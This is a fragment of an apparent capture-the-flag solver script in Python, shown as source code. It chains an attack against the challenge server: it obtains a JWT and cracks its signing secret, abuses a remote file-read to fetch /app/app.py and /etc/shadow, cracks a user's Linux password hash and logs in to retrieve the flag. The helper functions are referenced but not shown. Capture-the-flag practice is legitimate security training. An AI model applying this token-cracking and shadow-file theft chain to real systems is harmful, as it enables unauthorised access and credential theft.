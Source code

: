 ```python
    if 'wctf{' in response.text:
        print('SOLVED: username challenge!')
    else:
        print(f'ERROR: failed to get flag from: {url}', response.status_code, response.text)



givenJWT = getJWT()
assertWelcomeHasHint(givenJWT)

jwtSecret = crackJWT(givenJWT)

appFileContent = readRemoteFile(jwtSecret, '/app/app.py')

# proves this endpoint is viewable in app.py
if '/secret-welcome-935734' not in appFileContent:
    print('1 Unexpected app.py content:', appFileContent)
    sys.exit(1)

# proves 'flaguser' is mentioned in app.py
if 'flaguser' not in appFileContent:
    print('2 Unexpected app.py content:', appFileContent)
    sys.exit(1)


# proves it says to find the linux password for 'flaguser'
if 'Login here with that username and their linux password' not in appFileContent:
    print('3 Unexpected app.py content:', appFileContent)
    sys.exit(1)


shadowFileContent = readRemoteFile(jwtSecret, '/etc/shadow')
linuxPasswordHash = getLinuxPasswordHash(shadowFileContent)

print('Have linux password hash, cracking it now. This will take a few mins...')
linuxPassword = crackLinuxPassword(linuxPasswordHash)

getFlag(linuxPassword)
```

